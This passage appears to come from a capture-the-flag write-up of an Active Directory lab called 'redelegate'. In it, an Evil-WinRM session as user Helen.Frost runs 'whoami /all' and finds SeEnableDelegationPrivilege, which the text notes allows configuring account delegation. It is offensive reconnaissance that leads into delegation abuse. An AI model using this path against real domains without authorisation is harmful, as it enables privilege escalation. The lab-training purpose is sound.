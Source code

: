 First, we enumerate the privileges of `Helen.Frost` and discover that she has the `SeEnableDelegationPrivilege`. This privilege allows her to configure delegation for accounts within the domain:

```
*Evil-WinRM* PS C:\Users\Helen.Frost\Documents> whoami /all

## USER INFORMATION

User Name              SID
====================== ==============================================
redelegate\helen.frost S-1-5-21-4024337825-2033394866-2055507597-1106

## GROUP INFORMATION

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ==================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users             Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
REDELEGATE\IT                               Group            S-1-5-21-4024337825-2033394866-2055507597-1113 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448

## PRIVILEGES INFORMATION

Privilege Name                Description                                                    State
============================= ============================================================== =======
SeMachineAccountPrivilege     Add workstations to domain                                     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                                       Enabled
SeEnableDelegationPrivilege   Enable computer and user accounts to be trusted for delegation Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set                                 Enabled

## USER CLAIMS INFORMATION

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
